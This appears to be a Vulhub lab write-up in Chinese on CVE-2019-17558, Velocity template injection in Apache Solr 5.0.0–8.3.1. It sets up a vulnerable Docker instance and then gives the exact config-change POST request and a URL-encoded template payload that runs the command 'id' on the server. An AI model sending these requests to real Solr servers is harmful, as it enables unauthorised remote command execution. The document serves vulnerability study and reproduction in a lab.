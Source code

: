 # Apache Solr Velocity 注入远程命令执行漏洞 (CVE-2019-17558)

Apache Solr 是一个开源的搜索服务器。

在其 5.0.0 到 8.3.1版本中，用户可以注入自定义模板，通过Velocity模板语言执行任意命令。

具体漏洞原理和POC可以参考：

- https://nvd.nist.gov/vuln/detail/CVE-2019-17558
- https://issues.apache.org/jira/browse/SOLR-13971
- https://gist.github.com/s00py/a1ba36a3689fa13759ff910e179fc133
- https://github.com/jas502n/solr_rce

## 漏洞环境

执行如下命令启动一个Apache Solr 8.2.0服务器：

```
docker compose up -d
```

服务启动后，访问`http://your-ip:8983`即可查看到一个无需权限的Apache Solr服务。

## 漏洞复现

默认情况下`params.resource.loader.enabled`配置未打开，无法使用自定义模板。我们先通过如下API获取所有的核心：

```
http://your-ip:8983/solr/admin/cores?indexInfo=false&wt=json
```

Vulhub里唯一的核心是`demo`：

![](1.png)

通过如下请求开启`params.resource.loader.enabled`，其中API路径包含刚才获取的core名称：

```
POST /solr/demo/config HTTP/1.1
Host: solr:8983
Content-Type: application/json
Content-Length: 259

{
  "update-queryresponsewriter": {
    "startup": "lazy",
    "name": "velocity",
    "class": "solr.VelocityResponseWriter",
    "template.base.dir": "",
    "solr.resource.loader.enabled": "true",
    "params.resource.loader.enabled": "true"
  }
}
```

之后，注入Velocity模板即可执行任意命令：

```
http://your-ip:8983/solr/demo/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27id%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end
```

![](2.png)
